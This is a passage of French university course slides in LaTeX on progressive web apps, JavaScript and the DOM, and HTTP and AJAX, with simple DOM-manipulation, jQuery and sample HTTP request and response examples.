  \href{https://en.wikipedia.org/wiki/Progressive_web_app}{Wikipedia}
\item
  Partiellement supporté par \href{https://love2dev.com/pwa/ios/}{iOS}
  (pas de notif, cache limité)
\end{itemize}

\hypertarget{pwa-howto}{%
\section{PWA : howto}\label{pwa-howto}}

\begin{itemize}
\tightlist
\item
  Portabilité :
  \href{https://www.smashingmagazine.com/2009/04/progressive-enhancement-what-it-is-and-how-to-use-it/}{Progressive
  Enhancement}
\item
  Rapidité :
  \href{https://developers.google.com/web/updates/2015/11/app-shell}{App
  Shell}, cache
\item
  Offline :
  \href{https://jakearchibald.com/2014/service-worker-first-draft/}{Service
  Workers}
\item
  \href{https://developers.google.com/web/fundamentals/app-install-banners/}{Install
  Banner} : HTTPS, WebApp Manifest, SW, 2 visits
\item
  \href{https://developers.google.com/web/progressive-web-apps/checklist}{Tests}
  : Lighthouse en automatise une partie
\end{itemize}

\hypertarget{exemples-et-tutos}{%
\section{Exemples et tutos}\label{exemples-et-tutos}}

\begin{itemize}
\tightlist
\item
  Exemples

  \begin{itemize}
  \tightlist
  \item
    \href{https://whatpwacando.today/}{What PWA can do today}
  \item
    \href{https://developer.chrome.com/blog/fugu-showcase/}{Project
    Fugu}
  \item
    \href{https://github.com/hemanth/awesome-pwa}{Awesome PWA}
  \item
    \href{https://appsco.pe/}{Appscope}
  \end{itemize}
\item
  Tutos

  \begin{itemize}
  \tightlist
  \item
    \href{https://addyosmani.com/blog/getting-started-with-progressive-web-apps/}{Getting
    started with PWA}
  \item
    \href{https://developers.google.com/web/fundamentals/codelabs/your-first-pwapp/}{Your
    1st PWA}
  \item
    \href{https://hnpwa.com/}{HN PWA}
  \item
    \href{https://github.com/gokulkrishh}{Gokulakrishnan Kalaikovan}
  \end{itemize}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ JavaScript et DOM}
\hypertarget{javascript-hier}{%
\section{JavaScript hier}\label{javascript-hier}}

\begin{itemize}
\tightlist
\item
  Page web = HTML (+ CSS + JavaScript)
\item
  Exécuté par le browser (client)
\item
  Interprété, faiblement typé, OO
\item
  Historiquement

  \begin{itemize}
  \tightlist
  \item
    Depuis Netscape 2 (1995, Brendan Eich)
  \item
    Petites applications exécutées par le navigateur
  \item
    DHTML : rollovers, validation de formulaires, \ldots{}
  \end{itemize}
\end{itemize}

\hypertarget{javascript-aujourdhui}{%
\section{JavaScript aujourd'hui}\label{javascript-aujourdhui}}

\begin{itemize}
\tightlist
\item
  Page web = HTML + CSS + \textbf{JavaScript}
\item
  Compilation JIT
\item
  HTML5, AJAX, bookmarklets
\item
  One Page Apps
\item
  Implémentations hors-browser

  \begin{itemize}
  \tightlist
  \item
    Node.js, Spidermonkey, Rhino
  \item
    script d'app (Qt, Notepad++, \ldots)
  \end{itemize}
\item
  Langage cible de compilateurs :
  \href{https://github.com/kripken/emscripten/wiki}{emscripten},
  \href{http://webassembly.org/}{WebAssembly}
\item
  Embarqué : \href{http://www.espruino.com/}{Espruino}, robotique :
  \href{https://nodebots.io/}{Node Bots},
  \href{https://cylonjs.com/}{CylonJS}
\item
  Applications Desktop : \href{https://electronjs.org/}{Electron},
  \href{https://sciter.com/}{}
\end{itemize}

\hypertarget{script}{%
\section{*Script}\label{script}}

\begin{itemize}
\tightlist
\item
  ECMAScript : Norme depuis 1997

  \begin{itemize}
  \tightlist
  \item
    Juin 2022 :
    \href{https://www.ecma-international.org/publications-and-standards/standards/ecma-262/}{ECMA-262
    13th edition}
  \item
    \href{http://kangax.github.io/compat-table/es2016plus/}{Support} des
    différentes implémentations
  \item
    Conversions avec \href{https://babeljs.io/}{BabelJS}
  \end{itemize}
\item
  JavaScript : implémentation Firefox (réf. MDN)
\item
  Variantes (à transpiler) :

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.typescriptlang.org/}{Typescript} : variante
    fortement typée, avec des classes (MS)
  \item
    \href{http://coffeescript.org/}{Coffescript}

    \begin{itemize}
    \tightlist
    \item
      sucre syntaxique
    \item
      compilé -\textgreater{} js
    \end{itemize}
  \end{itemize}
\end{itemize}

\hypertarget{javascript}{%
\section{JavaScript}\label{javascript}}

\begin{itemize}
\tightlist
\item
  Différentes
  \href{https://en.wikipedia.org/wiki/List_of_ECMAScript_engines}{implémentations}
  : navigateur, srv, apps, \ldots{}
\item
  Permissif : du mauvais code est peu maintenable

  \begin{itemize}
  \tightlist
  \item
    \href{https://addyosmani.com/resources/essentialjsdesignpatterns/book/}{Design
    Patterns}
  \item
    \href{http://jstherightway.org/}{Bonnes pratiques}
  \end{itemize}
\item
  Interface pour scripter le navigateur

  \begin{itemize}
  \tightlist
  \item
    Accès et modification du contenu via DOM
  \item
    \href{http://www.howtogeek.com/125846/the-most-useful-bookmarklets-to-enhance-your-browsing-experience/}{Bookmarklets},
    \href{http://www.hongkiat.com/blog/100-useful-bookmarklets-for-better-productivity-ultimate-list/}{exemples}
  \item
    Requêtes HTTP (Fetch API, Xml Http Request)
  \end{itemize}
\item
  Développement d'applications complètes, parfois offline
\item
  Langage de script généraliste (paquets npm)
\end{itemize}

\hypertarget{caractuxe9ristiques-du-langage}{%
\section{Caractéristiques du
langage}\label{caractuxe9ristiques-du-langage}}

\begin{itemize}
\tightlist
\item
  Orienté Objet par prototype
\item
  Syntaxe proche de C, Java
\item
  Faiblement typé :

  \begin{itemize}
  \tightlist
  \item
    Pas de déclaration, type déterminé par la dernière affectation
  \item
    Risque : typo =\textgreater{} nouvelle variable. Utiliser
    \textenglish{\texttt{const}} et \textenglish{\texttt{let}}
  \end{itemize}
\item
  Types :

  \begin{itemize}
  \tightlist
  \item
    Primitifs :
    \textenglish{\texttt{Boolean\ Null\ Undefined\ Number\ String\ Symbol}}
  \item
    Objets : \textenglish{\texttt{Object\ Function}}
  \end{itemize}
\item
  Particularités

  \begin{itemize}
  \tightlist
  \item
    \href{https://developer.mozilla.org/fr/docs/Web/JavaScript/Guide/Le_mod\%C3\%A8le_objet_JavaScript_en_d\%C3\%A9tails}{Prototypes}
  \item
    \href{http://www.w3schools.com/js/js_function_closures.asp}{Fermetures}
  \item
    \href{https://www.promisejs.org/}{Promesses}
    (\href{https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Promise}{MDN},
    \href{https://developers.google.com/web/fundamentals/getting-started/primers/promises}{Google})
  \end{itemize}
\end{itemize}

\hypertarget{fonctions}{%
\section{Fonctions}\label{fonctions}}

\begin{itemize}
\tightlist
\item
  Pas de type de retour
\item
  Possibilité de retourner ou non une valeur
\item
  Sans retour, valeur spéciale : undefined
\item
  Pas de surcharge (la dernière définie prime)
\item
  \textenglish{\texttt{function}} est un type
\item
  Fonctions imbriquées, anonymes
\item
  Fonctions globales :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\PreprocessorTok{escape}\NormalTok{()}\OperatorTok{,} \PreprocessorTok{unescape}\NormalTok{()}\OperatorTok{,} \PreprocessorTok{isFinite}\NormalTok{()}\OperatorTok{,} \PreprocessorTok{isNaN}\NormalTok{()}\OperatorTok{,}
\PreprocessorTok{parseFloat}\NormalTok{()}\OperatorTok{,} \PreprocessorTok{parseInt}\NormalTok{()}\OperatorTok{,} \BuiltInTok{Number}\NormalTok{()}\OperatorTok{,} \BuiltInTok{String}\NormalTok{()}\OperatorTok{,} 
\PreprocessorTok{eval}\NormalTok{()}\OperatorTok{,} \OperatorTok{...}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{javascript-dans-la-page-web}{%
\section{JavaScript dans la page
web}\label{javascript-dans-la-page-web}}

\begin{itemize}
\tightlist
\item
  Éléments \textenglish{\texttt{\textless{}script\textgreater{}}}
  exécutés dans l'ordre de la page
\item
  Conseillé de les placer en
  \href{https://developer.yahoo.com/performance/rules.html\#js_bottom=}{fin
  de page}
\item
  Evénements (onclick, onerror, onsubmit, \ldots)

  \begin{itemize}
  \tightlist
  \item
    Embarqués dans les balises (onXXX)
  \end{itemize}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}div}\OtherTok{ id=}\StringTok{"intro"}\OtherTok{ onclick=}\StringTok{"change();"} \KeywordTok{/\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

Utiliser DOM

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}script}\OtherTok{ type=}\StringTok{"text/javascript"}\KeywordTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementById}\NormalTok{(}\StringTok{"intro"}\NormalTok{)}\OperatorTok{.}\AttributeTok{onclick} \OperatorTok{=}\NormalTok{ change}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}/script\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Conseillé d'inclure le code (attribut src)
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}script}\OtherTok{ type=}\StringTok{"text/javascript"}\OtherTok{ src=}\StringTok{"script02.js"}\KeywordTok{\textgreater{}\textless{}/script\textgreater{}} 
\end{Highlighting}
\end{Shaded}

\end{english}

\textenglish{\texttt{language="JavaScript"}} est déprécié et
\textenglish{\texttt{type}} vaut par défaut
\textenglish{\texttt{text/javascript}}.

\begin{quote}
The type attribute gives the language of the script or format of the
data. {[}\ldots{]} The default, which is used if the attribute is
absent, is ``text/javascript''.

\href{https://www.w3.org/TR/html5/scripting-1.html\#the-script-element}{HTML5:
script}
\end{quote}

\hypertarget{unobstrusive-js}{%
\section{\texorpdfstring{\href{https://en.wikipedia.org/wiki/Unobtrusive_JavaScript}{Unobstrusive
JS}}{Unobstrusive JS}}\label{unobstrusive-js}}

\begin{itemize}
\tightlist
\item
  Séparation JS\ldots{}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{document}\OperatorTok{.}\FunctionTok{addEventListener}\NormalTok{(}\StringTok{"DOMContentLoaded"}\OperatorTok{,} \KeywordTok{function}\NormalTok{() \{}
    \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementById}\NormalTok{(}\StringTok{\textquotesingle{}date\textquotesingle{}}\NormalTok{)}\OperatorTok{.}\FunctionTok{addEventListener}\NormalTok{(}\StringTok{"change"}\OperatorTok{,}\NormalTok{ validateDate)}\OperatorTok{;}
\NormalTok{\}}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  \ldots et HTML
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \KeywordTok{\textless{}input}\OtherTok{ type=}\StringTok{"text"}\OtherTok{ name=}\StringTok{"date"}\OtherTok{ id=}\StringTok{"date"} \KeywordTok{/\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Dégradation élégante

  \begin{itemize}
  \tightlist
  \item
    Alternatives pour un browser ne supportant pas JS
  \end{itemize}
\item
  Accessibilité

  \begin{itemize}
  \tightlist
  \item
    Les fonctionnalités restent accessibles en cas d'erreur
  \end{itemize}
\item
  Utilisabilité

  \begin{itemize}
  \tightlist
  \item
    Le script doit faire gagner du temps, pas distraire
  \end{itemize}
\end{itemize}

\begin{quote}
It is an incredibly popular mistake to use \textenglish{\texttt{load}}
where \textenglish{\texttt{DOMContentLoaded}} would be much more
appropriate, so be cautious.

\href{https://developer.mozilla.org/en/docs/Web/Events/DOMContentLoaded}{MDN:
DOMContentLoaded}
\end{quote}

\hypertarget{node.js-deno}{%
\section{\texorpdfstring{\href{https://nodejs.org}{Node.js} /
\href{https://www.reddit.com/r/node/comments/nx9qqr/deno_vs_nodejs_a_comparison_you_need_to_know/}{Deno}}{Node.js / Deno}}\label{node.js-deno}}

\begin{itemize}
\tightlist
\item
  Node.js : une implémentation hors navigateur

  \begin{itemize}
  \tightlist
  \item
    environnement d'exécution + bibliothèques
  \item
    event driven, non-blocking IO -\textgreater{} scalable
  \item
    V8 engine
  \item
    scripts exécutables sans navigateur
  \item
    \href{https://www.npmjs.com}{npm} : gestionnaire de paquets
  \item
    gulp : make js
  \end{itemize}
\item
  \href{https://colorlib.com/wp/npm-packages-node-js/}{Exemples}
  d'applications

  \begin{itemize}
  \tightlist
  \item
    gulp, grunt, bower, yarn
  \item
    browserify
  \item
    serveur http
  \item
    express, cordova, forever, dev, pm2, karma, sails, phantomjs
  \end{itemize}
\item
  \href{https://www.tutorialspoint.com/nodejs/index.htm}{Tuto},
  \href{https://runkit.com}{Playground}
\end{itemize}

\hypertarget{dom}{%
\section{DOM}\label{dom}}

\begin{itemize}
\tightlist
\item
  Document Object Model
\item
  Représentation arborescente de la page
\item
  Accessible depuis objet JS document
\item
  Possibilité d'accéder au contenu de la page :

  \begin{itemize}
  \tightlist
  \item
    Lecture
  \item
    Modification
  \item
    Ajout
  \end{itemize}
\item
  JS peut donc modifier le contenu d'une page
\end{itemize}

\hypertarget{dom-1}{%
\section{DOM}\label{dom-1}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}html\textgreater{}}
\KeywordTok{\textless{}head\textgreater{}}
   \KeywordTok{\textless{}title\textgreater{}}\NormalTok{My title}\KeywordTok{\textless{}/title\textgreater{}}
\KeywordTok{\textless{}/head\textgreater{}}
\KeywordTok{\textless{}body\textgreater{}}
    \KeywordTok{\textless{}h1\textgreater{}}\NormalTok{A heading}\KeywordTok{\textless{}/h1\textgreater{}}
    \KeywordTok{\textless{}a}\OtherTok{ href=}\StringTok{"\#"}\KeywordTok{\textgreater{}}\NormalTok{Link text}\KeywordTok{\textless{}/a\textgreater{}}
\KeywordTok{\textless{}/body\textgreater{}}
\KeywordTok{\textless{}/html\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{figure}
\centering

\includegraphics{src/img/DOM-model.png}
\caption{DOM tree}
\end{figure}

\hypertarget{lobjet-document}{%
\section{L'objet Document}\label{lobjet-document}}

\begin{itemize}
\tightlist
\item
  Trouver ou modifier des éléments
\item
  Méthodes de \textenglish{\texttt{Document}}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \FunctionTok{querySelector}\NormalTok{()}\OperatorTok{,} \FunctionTok{querySelectorAll}\NormalTok{()}\OperatorTok{,}
    \FunctionTok{getElementById}\NormalTok{()}\OperatorTok{,} \FunctionTok{getElementsByTagName}\NormalTok{()}\OperatorTok{,} \FunctionTok{getElementByClass}\NormalTok{()}\OperatorTok{,}  
    \FunctionTok{createElement}\NormalTok{()}\OperatorTok{,} \FunctionTok{createTextNode}\NormalTok{()}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Méthodes de \textenglish{\texttt{Node}} (appel depuis nœud parent)
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \FunctionTok{insertBefore}\NormalTok{(child)}\OperatorTok{,} \FunctionTok{appendChild}\NormalTok{(child)}\OperatorTok{,}
    \FunctionTok{removeChild}\NormalTok{(child)}\OperatorTok{,} \FunctionTok{replaceChild}\NormalTok{(}\KeywordTok{new}\OperatorTok{,}\NormalTok{old)}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{ajouter-un-noeud}{%
\section{Ajouter un noeud}\label{ajouter-un-noeud}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{function} \FunctionTok{addNode}\NormalTok{() \{}
     \KeywordTok{var}\NormalTok{ inText }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementById}\NormalTok{(}\StringTok{"textArea"}\NormalTok{)}\OperatorTok{.}\AttributeTok{value}\OperatorTok{;}
     \KeywordTok{var}\NormalTok{ newText }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{createTextNode}\NormalTok{(inText)}\OperatorTok{;}

     \KeywordTok{var}\NormalTok{ newGraf }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{createElement}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{;}
\NormalTok{     newGraf}\OperatorTok{.}\FunctionTok{appendChild}\NormalTok{(newText)}\OperatorTok{;}

     \KeywordTok{var}\NormalTok{ docBody }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementsByTagName}\NormalTok{(}\StringTok{"body"}\NormalTok{)[}\DecValTok{0}\NormalTok{]}\OperatorTok{;}
\NormalTok{     docBody}\OperatorTok{.}\FunctionTok{appendChild}\NormalTok{(newGraf)}\OperatorTok{;}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Création du nouveau nœud :

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{newText}} contient le texte à ajouter
  \item
    \textenglish{\texttt{newGraf}} est un élément
    \textenglish{\texttt{p}} qui contient le texte
  \end{itemize}
\item
  Ajout du nœud comme une feuille de body :

  \begin{itemize}
  \tightlist
  \item
    Sélection du parent (le premier noeud \textenglish{\texttt{body}})
  \item
    Ajout du nouveau nœud depuis son parent
  \end{itemize}
\end{itemize}

\hypertarget{supprimer-un-nux153ud}{%
\section{Supprimer un nœud}\label{supprimer-un-nux153ud}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{function} \FunctionTok{delNode}\NormalTok{() \{}
   \KeywordTok{var}\NormalTok{ allGrafs }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementsByTagName}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{;}

   \ControlFlowTok{if}\NormalTok{ (allGrafs}\OperatorTok{.}\AttributeTok{length} \OperatorTok{\textgreater{}} \DecValTok{1}\NormalTok{) \{}
      \KeywordTok{var}\NormalTok{ lastGraf }\OperatorTok{=}\NormalTok{ allGrafs}\OperatorTok{.}\FunctionTok{item}\NormalTok{ (allGrafs}\OperatorTok{.}\AttributeTok{length}\DecValTok{{-}1}\NormalTok{)}\OperatorTok{;}
\NormalTok{      lastGraf}\OperatorTok{.}\AttributeTok{parentNode}\OperatorTok{.}\FunctionTok{removeChild}\NormalTok{(lastGraf)}\OperatorTok{;}
\NormalTok{   \}}
   \ControlFlowTok{else}\NormalTok{ \{}
      \BuiltInTok{console}\OperatorTok{.}\FunctionTok{error}\NormalTok{(}\StringTok{"Nothing to remove!"}\NormalTok{)}\OperatorTok{;}
\NormalTok{   \}}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Sélection du nœud à supprimer :

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{allGrafs}} contient tous les éléments
    \textenglish{\texttt{p}}
  \item
    \textenglish{\texttt{lastGraf}} contient le denier du tableau
    \textenglish{\texttt{allGrafs}}
  \end{itemize}
\item
  Suppression :

  \begin{itemize}
  \tightlist
  \item
    Suppression du nœud sélectionné depuis son
    \href{https://developer.mozilla.org/en-US/docs/Web/API/Node/parentNode}{parent}
  \end{itemize}
\end{itemize}

\hypertarget{insuxe9rer-un-nux153ud}{%
\section{Insérer un nœud}\label{insuxe9rer-un-nux153ud}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{function} \FunctionTok{insertNode}\NormalTok{() \{}
     \KeywordTok{var}\NormalTok{ newText }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{createTextNode}\NormalTok{(}\StringTok{"New Text"}\NormalTok{)}\OperatorTok{;}
     \KeywordTok{var}\NormalTok{ newGraf }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{createElement}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{;}
\NormalTok{     newGraf}\OperatorTok{.}\FunctionTok{appendChild}\NormalTok{(newText)}\OperatorTok{;}
    
     \KeywordTok{var}\NormalTok{ divMod }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementsByTagName}\NormalTok{(}\StringTok{"div"}\NormalTok{)[}\DecValTok{0}\NormalTok{]}\OperatorTok{;}
     \KeywordTok{var}\NormalTok{ allGrafs }\OperatorTok{=}\NormalTok{ divMod}\OperatorTok{.}\FunctionTok{getElementsByTagName}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{;}
     \KeywordTok{var}\NormalTok{ oldGraf }\OperatorTok{=}\NormalTok{ allGrafs}\OperatorTok{.}\FunctionTok{item}\NormalTok{(}\DecValTok{0}\NormalTok{)}\OperatorTok{;}             \CommentTok{// position}

\NormalTok{     divMod}\OperatorTok{.}\FunctionTok{insertBefore}\NormalTok{(newGraf}\OperatorTok{,}\NormalTok{oldGraf)}\OperatorTok{;}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Création du nouveau nœud :

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{allGrafs}} contient tous les éléments
    \textenglish{\texttt{p}}
  \item
    \textenglish{\texttt{lastGraf}} contient le denier du tableau
    \textenglish{\texttt{allGrafs}}
  \end{itemize}
\item
  Insertion :

  \begin{itemize}
  \tightlist
  \item
    Recherche du parent
  \item
    Recherche du frère gauche
  \item
    Insertion depuis le parent
  \end{itemize}
\end{itemize}

\hypertarget{avec-jquery}{%
\section{Avec jQuery}\label{avec-jquery}}

\begin{itemize}
\tightlist
\item
  Création et ajout :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \KeywordTok{var}\NormalTok{ noeud }\OperatorTok{=} \FunctionTok{$}\NormalTok{(}\StringTok{\textquotesingle{}\textless{}p\textgreater{}Nouveau texte\textless{}/p\textgreater{}\textquotesingle{}}\NormalTok{)}\OperatorTok{;}  \CommentTok{// create node}
    \FunctionTok{$}\NormalTok{(}\StringTok{"body"}\NormalTok{)}\OperatorTok{.}\FunctionTok{append}\NormalTok{(noeud)}\OperatorTok{;}                \CommentTok{// après le dernier fils}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Sélection et Suppression :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \KeywordTok{var}\NormalTok{ noeud }\OperatorTok{=} \FunctionTok{$}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{;} \CommentTok{// select node(s)}
\NormalTok{    noeud}\OperatorTok{.}\FunctionTok{remove}\NormalTok{()}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{ruxe9fuxe9rences}{%
\section{Références}\label{ruxe9fuxe9rences}}

\begin{itemize}
\tightlist
\item
  Une
  \href{https://developer.mozilla.org/fr/docs/Web/JavaScript/Une_r\%C3\%A9introduction_\%C3\%A0_JavaScript}{réintroduction
  à JavaScript}
\item
  \href{https://hackernoon.com/how-it-feels-to-learn-javascript-in-2016-d3a717dd577f}{How
  does it feel to learn JS in 2016}
\item
  Référence
  \href{https://developer.mozilla.org/fr/docs/Web/JavaScript/Reference}{MDN}
\item
  Tutoriels \href{https://javascript.info/}{The Modern JS Tuto}
  \href{http://www.w3schools.com/js/}{w3schools}
\item
  Outils de développement Chrome et Firefox (F12, Ctrl+Shift I)
\item
  Visualisation du \href{http://bioub.github.io/dom-visualizer/}{DOM}
\item
  Outils web

  \begin{itemize}
  \tightlist
  \item
    \href{https://jsfiddle.net/}{JSFiddle}
  \item
    \href{http://www.jslint.com/}{JSLint}
  \end{itemize}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ HTTP et AJAX}
\hypertarget{hypertext-transfer-protocol}{%
\section{HyperText Transfer
Protocol}\label{hypertext-transfer-protocol}}

\begin{itemize}
\tightlist
\item
  Protocole application : invention www en 1990 (v0.9)

  \begin{itemize}
  \tightlist
  \item
    Connexion, GET, réponse, fermeture
  \end{itemize}
\item
  HTTP 1.0 (1996)

  \begin{itemize}
  \tightlist
  \item
    Entêtes de requête (Host, Referer, User-Agent, \ldots) et réponse
    (Content-Type, Set-Cookie, Location, \ldots)
  \end{itemize}
\item
  HTTP 1.1 (1997)

  \begin{itemize}
  \tightlist
  \item
    Nouveaux entêtes (Keep-alive, pipelining, cache, \ldots), Host
    obligatoire
  \end{itemize}
\item
  \href{https://docs.google.com/presentation/d/1eqae3OBCxwWswOsaWMAWRpqnmrVVrAfPQclfSqPkXrA/present\#slide=id.p19}{HTTP
  2.0} (2015)

  \begin{itemize}
  \tightlist
  \item
    Binaire, multiplexage connexions, compression entêtes, push,
    \ldots{}
  \item
    Supporté par \href{http://caniuse.com/\#feat=http2}{presque tous}
    les navigateurs, une majorité de serveurs
  \end{itemize}
\item
  \href{https://http3-explained.haxx.se/fr/}{HTTP 3.0} (2019)

  \begin{itemize}
  \tightlist
  \item
    UDP, correction erreur, contrôle congestion, multiplexage (0 RTT)
  \end{itemize}
\end{itemize}

\hypertarget{codes-de-ruxe9ponse}{%
\section{Codes de réponse}\label{codes-de-ruxe9ponse}}

\begin{itemize}
\tightlist
\item
  1xx : Information
\item
  2xx : Succès
\item
  3xx : Redirection
\item
  4xx : Erreur Client
\item
  5xx : Erreur Serveur
\end{itemize}

\hypertarget{muxe9thodes-http-verbes}{%
\section{Méthodes HTTP (verbes)}\label{muxe9thodes-http-verbes}}

\begin{itemize}
\tightlist
\item
  {GET} : Demander une ressource
\item
  POST : Création d'une ressource
\item
  {PUT} : Remplacement total d'une ressource
\item
  PATCH : Remplacement partiel d'une ressource
\item
  {DELETE} : Suppression d'une ressource
\item
  {HEAD} : Demande l'entête de la réponse, sans la ressource
\item
  {TRACE, OPTIONS}, CONNECT
\end{itemize}

{idempotentes} {sûres}

\hypertarget{echanges-http}{%
\section{Echanges HTTP}\label{echanges-http}}

\begin{itemize}
\tightlist
\item
  Requête
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{GET / HTTP/1.1[CRLF]}
\NormalTok{Host: www.cff.ch[CRLF]}
\NormalTok{Connection: close[CRLF]}
\NormalTok{User{-}Agent: Opera/9.20 (Windows NT 6.0; U; en)[CRLF]}
\NormalTok{Accept{-}Encoding: gzip[CRLF]}
\NormalTok{Accept{-}Charset: ISO{-}8859{-}1,UTF{-}8;q=0.7,*;q=0.7[CRLF]}
\NormalTok{Cache{-}Control: no[CRLF]}
\NormalTok{Accept{-}Language: de,en;q=0.7,en{-}us;q=0.3[CRLF]}
\NormalTok{Referer: http://web{-}sniffer.net/[CRLF]}
\NormalTok{[CRLF]}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Réponse
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{HTTP Status Code:   HTTP/1.1 302 Found}
\NormalTok{Date:           Mon, 16 Nov 2009 08:01:35 GMT   }
\NormalTok{Server:         Apache  }
\NormalTok{Location:       http://www.sbb.ch/fr/   }
\NormalTok{Content{-}Length:     205 }
\NormalTok{Connection:     close   }
\NormalTok{Content{-}Type:       text/html; charset=iso{-}8859{-}1}

\DataTypeTok{\textless{}!DOCTYPE }\NormalTok{HTML PUBLIC "{-}//IETF//DTD HTML 2.0//EN"}\DataTypeTok{\textgreater{}}
\KeywordTok{\textless{}html\textgreater{}\textless{}head\textgreater{}\textless{}title\textgreater{}}\NormalTok{302 Found}\KeywordTok{\textless{}/title\textgreater{}}
\KeywordTok{\textless{}/head\textgreater{}\textless{}body\textgreater{}}
\KeywordTok{\textless{}h1\textgreater{}}\NormalTok{Found}\KeywordTok{\textless{}/h1\textgreater{}}
\KeywordTok{\textless{}p\textgreater{}}\NormalTok{The document has moved }\KeywordTok{\textless{}a}\OtherTok{ href=}\StringTok{"http://www.sbb.ch/fr/"}\KeywordTok{\textgreater{}}\NormalTok{here}\KeywordTok{\textless{}/a\textgreater{}}\NormalTok{.}\KeywordTok{\textless{}/p\textgreater{}}
\KeywordTok{\textless{}/body\textgreater{}\textless{}/html\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{http}{%
\section{HTTP}\label{http}}

\begin{itemize}
\tightlist
\item
  Requête POST : paramètres dans le corps
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{POST /login.jsp HTTP/1.1}
\NormalTok{Host: www.mysite.com}
\NormalTok{User{-}Agent: Mozilla/4.0}
\NormalTok{Content{-}Length: 27}
\NormalTok{Content{-}Type: application/x{-}www{-}form{-}urlencoded}

\NormalTok{userid=joe}\ErrorTok{\&}\NormalTok{password=guessme}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Outils HTTP

  \begin{itemize}
  \tightlist
  \item
    CLI : curl
  \item
    Browser dev tools
  \end{itemize}
\item
  Exemples PATCH :
  \href{http://www.mnot.net/blog/2012/09/05/patch}{mnot} ,
  \href{http://soabits.blogspot.ch/2013/01/http-put-patch-or-post-partial-updates.html}{SOA
  bits}
\end{itemize}

